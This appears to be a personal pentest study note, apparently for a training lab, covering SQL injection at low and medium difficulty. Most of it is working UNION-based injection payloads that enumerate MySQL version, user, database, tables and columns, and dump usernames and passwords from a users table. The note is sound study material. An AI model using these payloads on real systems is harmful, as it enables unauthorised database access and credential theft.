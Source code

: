 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

LOW

`'` in the box shows a MySQL error.

Use [[SQL Payload]] to find credentials dumped.

From here, we need to close out all the characters with `'` as seen below:

`%' or '0'='0' `

Find how many columns exist:
```SQL - target
%' or '0'='0' union select null, null-- -
```

Dump database version:
```SQL - target
%' or '0'='0' union select null, version()-- -
```

Dump database user:
```SQL - target
%' or '0'='0' union select null, user()-- -
```

Dump database name:
```SQL - target
%' or '0'='0' union select null, database()-- -
```

Display all tables in information_schema:
```SQL - target
%' or '0'='0' union select null, table_name from information_schema.tables-- -
```

Display all users tables in information_schema:
```SQL - target
%' or '0'='0' union select null, table_name from information_schema.tables where table_name like 'user%'#
```

Display all the columns fields in the information_schema:
```SQL - target
%' or '0'='0' union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #
```

Display column field contents:
```SQL - target
%' or '0'='0' union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #
```

MEDIUM
`'` in the box shows a MySQL error.

Use [[SQL Payload]] to find credentials dumped.

Find how many columns exist:
```SQL - target
1 or 0=0 union select null, null-- -
```

Dump database version:
```SQL - target
1 or 0=0 union select null, version()-- -
```

Dump database user:
```SQL - target
1 or 0=0 union select null, user()-- -
```

Dump database name:
```SQL - target
1 or 0=0 union select null, database()-- -
```

Display all tables in information_schema:
```SQL - target
1 or 0=0 union select null, table_name from information_schema.tables-- -
```

Display all users tables in information_schema:
```SQL - target
1 or 0=0 union select null, table_name from information_schema.tables where table_name like 'user%'#
```

Display all the columns fields in the information_schema:
```SQL - target
1 or 0=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #
```

Display column field contents:
```SQL - target
1 or 0=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #
```

